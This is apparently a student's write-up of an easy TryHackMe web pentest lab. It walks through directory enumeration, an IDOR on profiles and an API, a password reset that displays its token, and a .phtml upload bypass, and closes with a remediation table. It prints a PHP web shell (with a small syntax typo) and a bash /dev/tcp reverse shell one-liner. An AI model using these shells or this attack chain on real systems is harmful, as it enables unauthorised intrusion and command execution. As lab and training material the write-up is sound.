<div align="center">


# Guided Pentest: Web

**Difficulty:** Easy
**Category:** Web

</div>

---


```bash
curl -I 10.81.139.217
```
* `-I` is fetch the headers only!



Server: Apache/2.4.58
PHPSESSID...

PHP, Apache and MySQL
* Apparentely a common "LAMP" configuration.

Lamp stack = "Linux, Apache, MySQL, PHP"

```bash
gobuster dir -u http://10.81.180.105 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
```

They supplied the flag `-x` which stands for extensions.
```bash
gobuster dir -u http://10.81.180.105 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
Gives the output like this:



`*.php`

## Findings:
* `/admin` - An admin panel exists, but it redirects to the login page. We need admin credentials to access it.
* `/api` - An API endpoint is present. APIs often expose data in ways the frontend does not.
* `/reset.php`- A password reset page. Reset mechanisms are frequently implemented insecurely.
* `/uploads` - An uploads directory. If we can upload files, this could be a path to code execution.
* `/profile.php` and `/dashboard.php` - These require authentication, so we need to be logged in to access them.

## API
```bash
curl http://10.81.180.105/api/
> {"endpoints":["\/api\/user","\/api\/jobs","\/api\/applications"}
```
* These are the API endpoints. Already an information disclosure issue in a production application. An unauthenticated user should not be able to discover internal API routes.

## IDOR
(`Insecure Direct Object Reference`)

When looking at my profile the URL is:
```url
http://10.81.180.105/profile.php?id=6
```




By changing the 6 to another integer we can access another persons profile:

```url
http://10.81.180.105/profile.php?id=1
```



We have the email, we can either reset the password with it, if there is no email verification. Or we can brute force the password.

```bash
curl -s -b "PHPSESSID=161kb14fcp8t0mm864qhr8qjqm" "http://10.81.180.105/profile.php?id=1"
```

`-s` is for silent (`--silent`)/
`-b` is for cookie (`--cookie`)



```bash
curl http://10.81.180.105/api/user?id=x
```



* The API shows more than the website does, already JSON structured data.
* IDOR vulnerabilities are consistently ranked among the most common web application flaw, this is because developers assume users will only try to access their own data. This is fixed by checking if the user has the authority to see the data before supplying it to them. Like `guard` in express, Node.js.

## Weak Password Reset
* We know the administrator's email address. Our next objective is to take over her account. If we were to brute force it with a password wordlist we could cause an account lockout. Instead take a look at `reset.php`

* We get the RESET TOKEN in the application instead of to our email-address. This means we can reset the administrator's password, just by having the email address.
* The tokens are 6 digit numbers, could be brute-forced. But could cause lockouts or be slow...




With the password reset we can log into the administrator's account.



The password reset mechanism had three distinct flaws:
* **Token displayed in response:** The token should only be sent to the account owner's email, never displayed on screen.
* **Weak token generation:** A six-digit numeric token has a small keyspace and is susceptible to brute-force attacks.
* **No rate limiting:** The application did not limit the number of reset requests or token guesses.

## Admin Panel Access



This gives us access to upload files.
* The only accepted files are:  (PDF,DOCX,JPG,PNG)



But this is only a client-side control, the browser enforces it, but a direct HTTP request can send whatever file type it wants.
* Delete the "accept" part of the html.

```bash
echo '<?php echo "PHPH is executing"; ?>' > test.php
```


The php file is blocked.

```bash
mv test.php test.phtlm
```


"`phtml`" is a mix between html and php, often run as a php file in html context.
* Perfect in this scenario, for bypassing the block of php files.

This was accepted, bypassing the front-end client-side file upload filtering.
* uploaded to "`/uploads/documents/test.phtml`"
* I dont know how...

Go to that URL:



This opens up for a shell.php.

## Remote Code Execution

Web Shell:
```php
<?php
if (isset($_GET['cmd'])){
	echo "<pre>" . shell_exec($_GET['cmd]) . "</pre>"
}
?>
```
* This script checks for a "`cmd`" parameter in the URL, if there is one, it will execute the code present there.
* Create a file "`webshell.phtml`"



```revshells.com
bash -c 'bash -i >&/dev/tcp/192.168.135.169/1234 0>&1'
```




```bash
cat /var/www/recruitx/flag.txt
THM{ch41n3d<REDACTED>3v4st4t1ng}
```

# Remediation Summary

| Vulnerability                                | Severity | Remediation                                                                                                                                                                                    |
| -------------------------------------------- | -------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| IDOR on user profiles and API                | High     | Implement server-side authorisation checks on every request. verify that the authenticated user has permission to access the requested resource.                                               |
| Password reset token exposed in the response | Critical | Send reset tokens exclusively via email. Display only a generic confirmation message on the page. Use cryptographically random tokens of at least 32characters.                                |
| Incomplete file extension blocklist          | Critical | Use an allowlist rather than a blocklist. Only permit specific, expected extensions. Validate file content (MIME type) in addition to the extension. Store uploaded files outside of web root. |
| API endpoint disclosure                      | Medium   | Remove the API index endpoint or restrict it to authenticated administrators. Do not expose internal route structures to unauthenticated users.                                                |
Blocklist and Allowlist
* BIG DIFFERENCE